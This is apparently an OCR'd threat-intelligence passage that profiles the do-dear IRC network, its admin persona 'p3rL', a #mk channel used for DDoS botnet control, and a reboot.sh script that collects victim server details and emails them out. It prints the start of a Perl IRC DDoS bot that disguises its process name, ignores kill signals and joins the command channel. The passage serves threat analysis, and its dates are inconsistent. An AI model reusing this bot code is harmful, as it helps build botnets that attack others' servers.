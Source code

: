 2013-12-24

do-dear is an IRC chat that has been in operation since as early as 2014.

Administrative info about chat.do-dear.com NickName: p3rL
Email-Id: p3rL[at]Do-Dear.com Facebook:
http://www.facebook.com/Fir0wN


There are at least two channels on the do-dear IRC, #dodear which is an open channel. All of the users in the channel appear to be Pakistani and send messages in Urdu. The other channel is #mk has been used for DDOS botnet operations since at least early 2019.The first observed malware associated with this channel is a perl irc bot.


$process = "-sh";
$vers = "\001VERSION 8,1-=-11[4mIRc-KinG11]8-=-0,1 | 11,1DDoS Bots.\001";
$nick = getnick();
$ircname = "DDoS";
$realname = "4-=-2D12DoS4-=-";
sub getnick {
  return "DDoS".int(rand(1000));
}
$server = 'irc.undernet.org' unless $server;
my $port = '6667';
my $linas_max='8';
my $sleep='5';
my $homedir = "/tmp/";
my $version = '1,11D11,1DoS Bot Powerd By mIRc-Kin1,11G';
my @admins = ("p3rL");
my @hostauth = ("SeR");
my @chans = ("#mk");
my $pacotes = 1;
$SIG{'INT'} = 'IGNORE';
$SIG{'HUP'} = 'IGNORE';
$SIG{'TERM'} = 'IGNORE';
$SIG{'CHLD'} = 'IGNORE';
$SIG{'PS'} = 'IGNORE';
use Socket;
use IO::Socket;
use IO::Socket::INET;
use IO::Select;
chdir("$homedir");
$server="$ARGV[0]" if $ARGV[0];
$0


The admin for this channel uses the handle p3rl
 

Figure 14. IRC Profile 
The P3rl persona also appears in a bash file that has been served off of both pw.pwndns.pw and web.do-dear.com starting in June 2020 (cpw.pwndns.pw/reboot.sh, web.do-dear.com/reboot.sh). This script first connects to 66.171.248.178 (whatsmyipaddress.com) and 208.95.112.1 (ip-api.com) to pull information about the victim server. This information is then parsed and sent in email to the following emails:
pwndns@protonmail.com
pwndns.pw@protonmail.com
